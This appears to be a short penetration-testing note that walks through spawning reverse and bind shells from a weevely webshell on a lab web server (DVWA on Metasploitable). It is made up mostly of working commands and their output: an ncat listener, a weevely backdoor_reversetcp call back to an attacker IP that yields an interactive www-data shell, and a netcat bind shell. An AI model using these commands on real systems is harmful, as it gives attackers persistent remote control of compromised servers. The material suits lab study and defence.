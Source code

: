 # 05 - Spawn Callback Shell

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## 5.1 Reverse Shell

* Attacker (waiting callback)

```
user@pentestos:~$ sudo ncat -lnvp 443
```

* Compromised Target (Web Server)

```
weevely> backdoor_reversetcp -h
The remote script execution triggers an error 500, check script and payload integrity
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_reversetcp -shell /bin/bash -vector netcat_bsd 172.28.128.14 443
The remote script execution triggers an error 500, check script and payload integrity
Error binding socket: '[Errno 98] Address already in use'
```

- Attacker (callback established)

```
user@pentestos:~$ sudo ncat -lnvp 443
[sudo] password for user:
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.28.128.8.
Ncat: Connection from 172.28.128.8:47902.
bash: no job control in this shell
www-data@metasploitable:/var/www/dvwa/vulnerabilities$ ls
brute
csrf
exec
fi
sqli
sqli_blind
upload
view_help.php
view_source.php
view_source_all.php
xss_r
xss_s
www-data@metasploitable:/var/www/dvwa/vulnerabilities$
```

## 5.2 Bind Shell

The `:backdoor_tcp` command module function in weevely for spawning a remote shell via netcat.

* Compromised Target (Web Server)

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_tcp -shell /bin/bash -vector netcat 8080
The remote script execution triggers an error 500, check script and payload integrity
Error connecting to 172.28.128.8:443: remote port not open or unreachable
```

The alternative is you run with any commands.

`www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ nc -lnvp 8080`

* Attacker

`user@pentestos:~$ nc 172.28.128.8 8080`

---
## References

* [Web App Hacking Part 6 Injecting a Backdoor into a Website with Weevely](https://www.hackers-arise.com/post/2017/12/03/Web-App-Hacking-Part-6-Injecting-a-Backdoor-into-a-Website-with-weevely)